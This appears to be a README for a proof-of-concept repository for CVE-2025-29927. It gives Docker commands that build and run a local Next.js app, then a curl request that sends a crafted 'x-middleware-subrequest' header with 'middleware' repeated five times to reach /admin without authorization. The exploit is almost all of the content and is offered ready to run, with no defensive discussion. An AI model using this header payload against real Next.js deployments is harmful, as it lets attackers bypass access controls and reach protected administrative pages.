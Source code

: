 # CVE-2025-29927

## Build Infrastructure
```sh
docker build -t cve-poc .
docker run -d -p 3000:3000 --name next-app cve-poc
```

## PoC
```
curl http://localhost:3000/admin -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"
```